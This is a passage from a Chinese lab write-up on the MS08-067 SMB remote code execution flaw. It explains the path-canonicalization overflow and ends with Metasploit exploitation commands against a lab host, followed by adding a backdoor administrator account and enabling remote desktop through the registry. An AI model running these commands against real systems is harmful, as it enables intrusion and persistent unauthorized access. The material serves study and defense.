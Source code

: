 - https://www.freebuf.com/vuls/203881.html  
  
MS08-067漏洞是通过MSRPC over SMB通道调用Server服务程序中的NetPathCanonicalize函数时触发的，而NetPathCanonicalize函数在远程访问其他主机时，会调用NetpwPathCanonicalize函数，对远程访问的路径进行规范化，而在NetpwPathCanonicalize函数中发生了栈缓冲区内存错误，造成可被利用实施远程代码执行。  
```
所谓路径规范化，就是将路径字符串中的【/】转换为【\】，同时去除相对路径【.\】和【..\】。如：
**/*/./**   =>  **\*\**
**\*\..\**  =>  **\**
```  
  
在路径规范化的操作中，服务程序对路径字符串的地址空间检查存在逻辑漏洞。攻击者通过精心设计输入路径，可以在函数去除【…\】字符串时，把路径字符串中内容复制到路径串之前的地址空间中（低地址），达到覆盖函数返回地址，执行任意代码的目的。  
  
这里通过IDA Pro打开c:\windows\system32\netapi32.dll，找到漏洞所在的NetpwPathCanonicalize函数并双击。通过观察其流程图CFG可知，此函数并没有直接进行输入路径和规范化，而是调用了下级函数CanonicalizePathName来进行路径整理，将待整理的路径字符串进行规范化，然后再保存到预先分配的输出路径缓冲区buffer中，最终造成缓冲区溢出漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROKEl9UgPgdtS7f6icqwSr8mxRTrbZCOdIiaOCks1lOwRPWjCugpthE0Vy3NvgaYMRmNPkOPVaKZNwg/640?wx_fmt=png&from=appmsg "")  
# 六.总结  
  
写到这里，这篇文章就介绍结束了，通过本次实验我们复现了MS08-067远程代码执行漏洞，涉及漏洞发现、验证漏洞、利用漏洞的完整过程，并利用Metasploit工具进行shell反弹及深入理解，希望对您有所帮助。如何进行防御呢？一方面关闭相关端口、安装杀毒软件和补丁，另一方面在防火墙中进行流量监测，主要是针对数据包中存在的形如"\ ** \ … \ … \ *"这样的恶意路径名进行检测，最为保险的方法是使用pcre正则去匹配。  
  
本次实验的完整命令：  
```
# 端口查询
nmap -n -p 445 --script smb-vuln-ms08-067 192.168.44.135 --open

# 查找漏洞利用模块
msfconsole
search ms08-067

# 漏洞利用
use exploit/windows/smb/ms08_067_netapi
show options
show targets

# 设置相关配置信息
set RHOST 192.168.44.135
set RPORT 445
set payload generic/shell_bind_tcp
set LHOST 192.168.44.136
set target 0
show options

# 反弹shell
exploit
session 1
ipconfig
pwd

# 目标主机文件操作
cd ..
mkdir hacker
dir
cd hacker
echo eastmount>test.txt
sysinfo

# 深度提权及远程连接操作
net user hacker 123456 /add 
net localgroup administrators hacker /add
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
```